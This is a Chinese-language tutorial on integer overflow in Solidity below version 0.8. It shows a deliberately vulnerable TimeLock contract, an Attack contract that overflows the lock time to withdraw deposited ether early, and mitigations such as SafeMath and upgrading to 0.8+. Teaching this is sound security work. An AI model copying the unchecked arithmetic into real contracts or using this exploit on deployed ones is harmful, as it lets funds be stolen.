 # 算术溢出

## 漏洞

##### Solidity < 0.8

这些版本中，如果发生整数溢出，Solidity并不会报错

##### Solidity >= 0.8

在 Solidity 0.8 中，发生溢出默认会抛出错误。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

// 这个合约实现了一个时间锁。
// 用户可以存入资金，但至少等待一周才能提取。
// 用户还可以延长等待期。

/*

1.部署TimeLock合约
2.使用TimeLock的地址部署攻击合约
3.调用Attack合约的attack方法，传入1ETH。便能够将资金立即提取。

发生了什么？
攻击导致TimeLock的lockTime溢出，使攻击者提前提取了资金。
*/

contract TimeLock {
    mapping(address => uint256) public balances;
    mapping(address => uint256) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint256 _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint256 amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent,) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        假设 t 是当前锁定时间，那么我们需要找到一个x满足
        x + t = 2**256 = 0
        可得 x = -t
        2**256 = type(uint).max + 1
        即 x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint256).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

## 应对措施

* 使用 [SafeMath](https://github.com/ConsenSysMesh/openzeppelin-solidity/blob/master/contracts/math/SafeMath.sol) 来保护算术溢出

* 使用 Solidity 0.8 以上版本